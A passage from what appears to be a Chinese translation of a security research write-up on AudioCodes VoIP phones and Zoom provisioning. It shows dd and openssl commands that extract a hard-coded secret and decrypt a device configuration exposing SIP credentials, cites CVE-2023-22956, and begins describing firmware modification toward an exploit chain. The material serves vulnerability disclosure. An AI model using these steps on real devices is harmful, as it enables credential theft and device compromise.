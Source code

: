 ```plain
$ offset=$(python3 -c 'print(int("00001e8f", base=16))')
$ dd skip=$offset count=64 if=decryption_tool of=secret.bin bs=1
```

最终，可以从提取的秘密中派生出密钥，从而成功解密加密的 AudioCodes 配置文件：

```plain
$ secret=$(cat secret.bin)

$ openssl enc -des-ede3-cbc -P -pass pass:$secret -nosalt
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
key=40DA61##########################################
iv =C614############

$ openssl enc -d -des-ede3-cbc -pass pass:$secret -nosalt \ 
        -in encrypted_config.cfx -out plain_config.cfg

$ cat plain_config.cfg
voip/line/0/enabled=1
voip/line/0/id=123
voip/line/0/auth_name=XYZ
voip/line/0/auth_password=XYZ
```

这种第二次使用硬编码的加密密钥在 SYSS-2022-054（CVE-2023-22956）中有描述。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-054.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-054.txt)
> 
> [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22956](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22956)

### 4.固件映像的逆向

为了构建一个成功的利用链，通过 Zoom 的 ZTP 传递恶意固件，并触发任意设备安装它，我们必须先分析 AudioCodes 设备的固件更新机制。

首先，我们从供应商的下载门户下载了一个固件映像文件，并对其进行了修改，尝试通过设备的 Web 界面安装修改后的固件。

可惜，设备拒绝了这次安装尝试。

> [https://www.audiocodes.com/library/firmware](https://www.audiocodes.com/library/firmware)
